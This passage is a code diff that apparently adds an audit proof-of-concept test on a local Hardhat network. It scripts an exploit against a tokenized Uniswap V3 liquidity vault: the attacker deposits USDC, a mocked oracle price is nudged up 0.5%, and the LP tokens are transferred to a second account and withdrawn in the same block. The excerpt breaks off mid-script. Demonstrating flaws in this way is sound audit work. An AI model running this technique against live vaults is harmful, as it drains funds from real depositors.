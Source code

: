```diff
+               await usdc.connect(attacker1).approve(uV3TokenizedLp.address, ethers.constants.MaxUint256);
+               const wethBalanceBefore = await weth.balanceOf(attacker1.address);
+               const usdcBalanceBefore = await usdc.balanceOf(attacker1.address);
+               console.log();
+
+               // 2. User1 deposits some tokens to simulate the real environment
+               console.log(">>>>>>>>>> User1 deposits some tokens to simulate the real environment");
+               await weth.mint(user1.address, ethers.utils.parseUnits('100', 18));
+               await usdc.mint(user1.address, ethers.utils.parseUnits('300000', 6));
+               await weth.connect(user1).approve(uV3TokenizedLp.address, ethers.constants.MaxUint256);
+               await usdc.connect(user1).approve(uV3TokenizedLp.address, ethers.constants.MaxUint256);
+               const wethIsToken0 = weth.address < usdc.address
+               if (wethIsToken0) {
+                       await uV3TokenizedLp.connect(user1).deposit(ethers.utils.parseUnits('100', 18), ethers.utils.parseUnits('300000', 6), user1.address);
+               } else {
+                       await uV3TokenizedLp.connect(user1).deposit(ethers.utils.parseUnits('300000', 6), ethers.utils.parseUnits('100', 18), user1.address);
+               }
+               await hre.network.provider.send('hardhat_mine', ['0x8', '0x10']);
+               await uV3TokenizedLp.autoRebalance(true);
+               await hre.network.provider.send('hardhat_mine', ['0x8', '0x10']);
+               console.log();
+
+               // 3. Attacker1 deposits some USDC in advance
+               console.log(">>>>>>>>>> Attacker1 deposits some USDC in advance");
+               await network.provider.send("evm_setAutomine", [false]);
+               console.log(">> block number before attack: %s", await blockNumber());
+               if (wethIsToken0) {
+                       await uV3TokenizedLp.connect(attacker1).deposit(0, ethers.utils.parseUnits('10000', 6), attacker1.address);
+               } else {
+                       await uV3TokenizedLp.connect(attacker1).deposit(ethers.utils.parseUnits('10000', 6), 0, attacker1.address);
+               }
+               console.log();
+
+               // 4. WETH price increased by 0.5%
+               console.log(">>>>>>>>>> WETH price increased by 0.5%");
+               await wethUsdOracle.setPrice((await wethUsdOracle.latestAnswer()).mul(1005).div(1000));
+               console.log();
+
+               // 5. Attacker1 transfers LP to attacker2 in the same block and then withdraws them
+               console.log(">>>>>>>>>> Attacker1 transfers LP to attacker2 in the same block and then withdraws them");
+               // const lpTokenBalance = await uV3TokenizedLp.balanceOf(attacker1.address);
+               const lpTokenBalance = BigNumber.from("2857142857147252746"); // == await uV3TokenizedLp.balanceOf(attacker1.address)
+               // console.log(lpTokenBalance);
+               await uV3TokenizedLp.connect(attacker1).transfer(attacker2.address, lpTokenBalance);
+               await network.provider.send("evm_setAutomine", [true]);
+               await uV3TokenizedLp.connect(attacker2).withdraw(lpTokenBalance, attacker1.address);
+               console.log(">> block number after attack: %s", await blockNumber());
+               const wethIn = (await weth.balanceOf(attacker1.address)).sub(wethBalanceBefore);
+               const usdcOut = usdcBalanceBefore.sub(await usdc.balanceOf(attacker1.address));
+               console.log(">> WETH in: %s", wethIn);
```